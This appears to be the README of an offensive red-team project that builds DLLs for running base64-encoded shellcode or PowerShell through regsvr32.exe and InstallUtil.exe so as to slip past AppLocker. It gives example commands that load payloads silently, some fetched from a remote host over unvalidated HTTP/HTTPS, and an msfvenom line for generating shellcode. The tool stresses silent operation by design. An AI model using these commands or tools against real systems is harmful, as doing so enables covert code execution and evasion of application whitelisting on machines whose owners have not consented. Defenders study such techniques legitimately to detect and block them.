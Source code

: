 # regsvr32 payload delivery 

This project compiles two Dynamic Link Libraries to be used with the "regsvr32.exe" Windows command.
The Windows *regsvr32.exe* command is used to register and unregister DLL's in the Windows registry.   Because it is frequently used, this command is rarely (if ever) blacklisted by Windows "AppLocker". 

Using a combination of the DLL's contained within this project, and the *regsvr32* Windows command, the user of these DLL's can either inject shellcode into memory, or run a PowerShell script by passing appropriate arguments to the "DllInstall()" routine contained within the code.

Any payloads used with this project must be base64 encoded, no matter whether the payload is a PowerShell script, or a binary shellcode.   In the case of shellcode, the system architecture must match.  In other words use either *rs32.dll* or *rs64.dll* depending on whether you have a 32-bit or 64-bit system target.

Payloads can additionally be hosted on a web server and will be read directly from the URL without any TLS/SSL certificate validation.  

Note that you will never be able to troubleshoot errors using this method.   It is completely silent by design.
Additionally, by adding the "/s" flag with *regsvr32.exe*, you are suppressing any dialog popups which are not going to be useful anyway.


Example Usage:

    C:\> regsvr32.exe /s /i:shellcode,payload-32bit.b64 rs32.dll

    C:\> regsvr32.exe /s /i:shellcode,payload-64bit.b64 rs64.dll
    
    C:\> regsvr32.exe /s /i:powershell,script-payload.b64 rs32.dll

    C:\> regsvr32.exe /s /i:shellcode,https://10.10.10.10/payload.b64 rs64.dll

    C:\> regsvr32.exe /s /i:powershell,http://10.10.10.10/pspayload.b64 rs64.dll
    
# installme

The installme project builds a DLL assembly which can be uninstalled by the dot NET installutil.
Uninstall actually means drop shellcode into memory using VirtualAlloc() / CreateThread() injection.
As with the regsvr32 technique, the install util method can also accept parameters thus we
can pass a filename or URL on the command line.  I have compiled this as dot NET version 2.0 compatible
initially and 32-bit only.  

* Payload parameter "/f" can be a filename or URL.
* Payload data must be base64 encoded.
* You will need to copy the installme_x86.dll onto the target system.

Example Usage:

    Payload Generation:  $ msfvenom -p windows/exec CMD=calc.exe EXITFUNC=thread -f raw | base64 >payload.b64

    C:\> \Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /u /f=payload.b64 installme_x86.dll


